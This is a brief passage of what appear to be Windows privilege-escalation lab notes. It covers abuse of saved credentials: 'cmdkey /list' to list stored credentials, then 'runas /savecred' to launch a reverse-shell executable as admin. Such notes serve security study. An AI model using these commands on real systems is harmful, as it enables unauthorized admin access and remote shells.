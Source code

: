 1x6 Password - Saved Creds

## Password - Saved Creds

```bash
cmdkey /list
```
![6d2ce00e5031127a70d2219c597c3a17.png](../_resources/86f813daa15d4c6eaa11c6cd3cd3386d.png)

```bash
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```
![d60031ee89be106db1f48cf2fc021b3e.png](../_resources/cd13d5190de54fcb97b0fbd11c1f4856.png)


